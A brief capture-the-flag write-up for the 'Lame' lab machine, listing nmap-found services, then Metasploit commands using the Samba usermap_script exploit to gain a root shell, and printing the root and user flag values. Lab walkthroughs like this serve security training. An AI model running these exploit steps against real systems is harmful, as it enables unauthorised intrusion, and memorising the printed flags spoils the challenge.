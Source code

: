 # [cd ../](../index.md)

---

# Lame writeup by M4t35Z

Name | Lame
--- | ---
IP | 10.10.10.3
Os | Linux
Points | Easy (20)

# Start
## Recon
### Nmap
[nmap_big.txt](nmap/nmap_big.txt)  
Open ports:

Port | Service | Version
:--- | :---: | ---:
21 | ftp | vsftpd 2.3.4
22 | ssh | OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
139 | netbios-ssn | Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445 | netbios-ssn | Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
3652 | distccd | distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))


## Exploitin'
Shh is usually not vulnerable but ftp and samba could be!
So just hit up [exploit-db](https://www.exploit-db.com/) and search for versions!  

### ftp
We found [this](https://www.exploit-db.com/exploits/17491) ftp exploit that could work.
We could try it but it isnt exploitable in this instance. ):

### smb
So we have to search for smb exploits!  
After some time we could find [this](https://www.exploit-db.com/exploits/16320) smb rce exploit for msf!  
Just open metasploit and use it! :D
```
msfconsole
search usermap_script
use exploit/multi/samba/usermap_script
set RHOSTS 10.10.10.3
run
```
And we got a root shell!
![shell.png](shell.png)

# Got the root and user flag too
```
/root/root.txt
92caac3be140ef409e45721348a4e9df

/home/makis/user.txt
69454a937d94f5f0225ea00acd2e84c5
```
